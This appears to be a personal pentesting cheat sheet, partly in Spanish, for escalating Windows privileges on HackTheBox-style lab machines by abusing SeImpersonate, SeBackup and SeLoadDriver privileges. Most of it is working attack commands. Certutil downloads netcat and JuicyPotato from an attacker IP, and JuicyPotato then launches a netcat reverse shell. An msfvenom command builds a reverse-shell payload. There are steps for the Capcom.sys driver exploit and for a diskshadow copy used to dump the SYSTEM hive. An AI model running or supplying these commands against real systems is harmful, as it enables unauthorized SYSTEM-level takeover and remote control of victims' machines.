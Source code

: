 ### SeImpersonatePrivilege  SeAssignPrimaryToken Enabled 
```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
certutil.exe -f -urlcache -split http://10.10.14.18/nc.exe nc.exe
certutil.exe -f -urlcache -split http://10.10.14.18/JuicyPotato.exe JuicyPotato.exe

.\JuicyPotato.exe -t * -l 1338 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\mario\nc.exe -e cmd 10.10.14.18 3001"

si da error cambiar CLSID

systeminfo -> buscar os -> OS Name:  Microsoft Windows 10 Pro 
 https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
 
 .\JuicyPotato.exe -t * -l 1338 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\mario\nc.exe -e cmd 10.10.10.19 3002" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"

windows server 2019
https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

windows 2003, xp
https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/
```
## SeBackupPrivilege 
```
https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/ 
  crear copia de system reg save HKLM\system system
##DEJAR UN ESPACION AL FINAL DE CADA LINEA  
set context persistent nowriters 
add volume c: alias mario 
create 
expose %mario% z: 
```
## SeLoadDriverPrivilege
```
En la maquina de htb fuse se gana privilegios de la misma manera.
https://www.tarlogic.com/es/blog/explotacion-de-la-directiva-cargar-y-descargar-controladores-de-dispositivo-seloaddriverprivilege/
Hay que compilar el binario

primero crear con msfvenom un reverse y guardarlo en 
C:\Windows\System32\spool\drivers\color\reverse.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.19 LPORT=3001 -f exe -o reverse.exe  

Commandos
upload /home/mario/htb/fuse/ExploitCapcom.exe
upload /home/mario/htb/fuse/LoadDriver.exe
cd C:\\Windows\\System32\\spool\\drivers\\color
upload reverse.exe
upload /home/mario/htb/fuse/Capcom.sys

Ejecutar
C:\Windows\Temp\mario\LoadDriver.exe System\CurrentControlSet\mario C:\Windows\Temp\mario\Capcom.sys
C:\Windows\Temp\mario\ExploitCapcom.exe
```

